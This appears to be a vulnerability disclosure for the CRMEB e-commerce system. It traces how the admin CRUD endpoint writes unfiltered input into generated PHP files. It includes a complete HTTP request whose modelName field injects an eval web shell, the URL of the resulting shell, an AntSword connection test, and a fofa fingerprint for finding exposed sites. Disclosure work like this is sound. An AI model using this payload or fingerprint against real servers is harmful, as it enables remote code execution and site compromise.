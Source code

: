 CRMEB logic defect

1. Project introduction

Project address: https://gitee.com/ZhongBangKeJi/CRMEB

Number of project stars: 11.7K

Project introduction: 🔥CRMEB open source mall free and open source multilingual mall system, Tp6 framework mall, the system can be commercialized; Including Mini Program Mall, H5 Mall, Official Account Mall, PC Mall, App, support distribution, grouping, bargaining, seckill, coupons, points, membership levels, Mini Program live broadcast, page DIY, front-end and back-end separation, convenient for two opening, use documents, interface documents, data dictionaries, two open documents/video tutorials, welcome your valuable comments and suggestions.

![image](https://github.com/1dreamGN/CVE/assets/112082417/fdae9fbb-8bec-4fa4-94ac-bafc85476dd6)

fofa syntax: icon_hash="-847565074"

![image](https://github.com/1dreamGN/CVE/assets/112082417/0d79501c-ce76-4cbf-b802-33f582543b15)

2. Audit and reproduction process

File where the vulnerability is located: app/adminapi/controller/v1/setting/SystemCrud.php

![image](https://github.com/1dreamGN/CVE/assets/112082417/90cba4a1-c6a8-4c7c-9323-f9ad2275ef7e)

crud function continues to track the createCrud function

File path: app/services/system/SystemCrudServices.php

![image](https://github.com/1dreamGN/CVE/assets/112082417/222ee4af-42e3-4163-9da4-4603b0f48730)

![image](https://github.com/1dreamGN/CVE/assets/112082417/bee3942c-44fe-417c-9f59-3f73705ea35a)

Follow the makeFile function

![image](https://github.com/1dreamGN/CVE/assets/112082417/bcc6ff21-6890-49b7-b2f5-a3d6107ef4ed)

![image](https://github.com/1dreamGN/CVE/assets/112082417/f2222f2d-0a4f-4ba9-a33b-d71d1765bf65)

Critical error points

![image](https://github.com/1dreamGN/CVE/assets/112082417/73ccde92-cd68-4b40-bc7a-09fcc929acd6)

Follow FileService::batchMakeFiles

![image](https://github.com/1dreamGN/CVE/assets/112082417/57ae854b-97e8-4272-9bb4-e6d40e09aaab)

Create a controller without filtering

Reproduce below

Log in to the background to obtain jwt-token

![image](https://github.com/1dreamGN/CVE/assets/112082417/2d82fe16-e236-4498-b492-79e8e2b8a776)

Construct a payload and request it

```
POST /adminapi/system/crud HTTP/1.1
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/json
Host: 222.186.134.155:99
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJiYzUzYmJkZWEzNjk1ODRiNDg1NTkwZGEzZmY3ZWQzOCIsImlzcyI6IjIyMi4xODYuMTM0LjE1NTo5OSIsImF1ZCI6IjIyMi4xODYuMTM0LjE1NTo5OSIsImlhdCI6MTY5NTQ5NTI4NywibmJmIjoxNjk1NDk1Mjg3LCJleHAiOjE2OTgwODcyODcsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.r8iA7llTlmqiNCm9_3MBUE6HVEjV13USJHi08FYPGfI

{ "pid": 25, "tableName": "test", "modelName": "*/?><?php namespace app\\adminapi\\controller\\crud; exit(eval($_GET[1]));//**", "isTable": 1, "menuName": "", "filePath": { "controller": "app/adminapi/controller/crud/Test.php", "route": "app/adminapi/route/crud/test.php" }, "tableField": [ { "field": "id", "field_type": "int", "default": "", "comment": "自增ID", "required": false, "is_table": true, "table_name": "ID", "limit": "15", "primaryKey": 1, "from_type": "" }, { "field": "", "field_type": "varchar", "default": "", "default_type": "-1", "comment": "test", "required": false, "is_table": true, "table_name": "test", "limit": 255, "primaryKey": 0, "from_type": "input", "search": "", "dictionary_id": 0, "hasOne": [], "index": false } ], "deleteField": []}

```

An error is returned. An error is reported in the database. But the file has already been generated



![image](https://github.com/1dreamGN/CVE/assets/112082417/9acda77e-9a2f-49d4-909c-15671b88f7e1)


Trojan address:

http://222.186.134.155:99/adminapi/crud/test?

param：1=phpinfo();

Test antsword links

![image](https://github.com/1dreamGN/CVE/assets/112082417/68da463b-e881-44c6-91e4-4e6ba0d4b980)

Setting the jwt-token file can also be generated to a directory that does not require permission


![image](https://github.com/1dreamGN/CVE/assets/112082417/8b229072-166f-4f2e-9eac-45f397b8f64d)

	







